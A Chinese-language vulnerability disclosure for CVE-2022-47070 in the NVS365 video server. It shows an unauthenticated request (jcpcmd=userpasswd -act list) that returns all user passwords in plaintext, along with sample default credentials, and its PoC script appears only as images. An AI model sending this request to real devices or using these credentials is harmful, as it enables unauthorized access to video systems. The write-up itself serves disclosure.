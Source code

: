 # 网络视频服务器：NVS365（密码信息未授权访问漏洞）(CVE-2022-47070)

NVS365 是一种数字媒体服务器，允许通过局域网 (LAN)
或互联网分发视频和音频。

官网：

<http://www.nvs365.com/>

![](./images/media/image1.png){width="5.764583333333333in"
height="1.9277777777777778in"}

官网产品介绍：

http://www.nvs365.com/docs/spec.html

![](./images/media/image2.png){width="5.7625in"
height="1.7430555555555556in"}

第三方产品介绍：

<http://www.sightwatch.com/>

![](./images/media/image3.png){width="5.758333333333334in"
height="4.003472222222222in"}

漏洞版本：

NVS-365-V01

![](./images/media/image4.png){width="5.764583333333333in"
height="3.66875in"}

漏洞分析：

输入一个错误的密码后，会向服务端发送两次url

(1)http://ip:prot/?jcpcmd=authen%20-act%20list&\_=1669884669901

(2)http://ip:prot/?jcpcmd=userpasswd%20-act%20list&\_=1669884673854

而 第二个包 服务端会返回正确的密码信息。

szJcpResult=\"\[Success\]user0=admin;passwd0=9999;group0=0;user1=operator;passwd1=operator;group1=1;user2=user;passwd2=user;group2=2;;\";

![](./images/media/image5.png){width="5.7652777777777775in"
height="2.5840277777777776in"}

直接访问url 如图：

![](./images/media/image6.png){width="5.758333333333334in"
height="1.145138888888889in"}



POC脚本未授权访问如下，详情可看附件py文件

![](./images/media/image8.png){width="5.764583333333333in"
height="3.5395833333333333in"}

![](./images/media/image9.png){width="5.7555555555555555in"
height="3.6638888888888888in"}

运行如下

![](./images/media/image10.png){width="5.766666666666667in"
height="5.934027777777778in"}
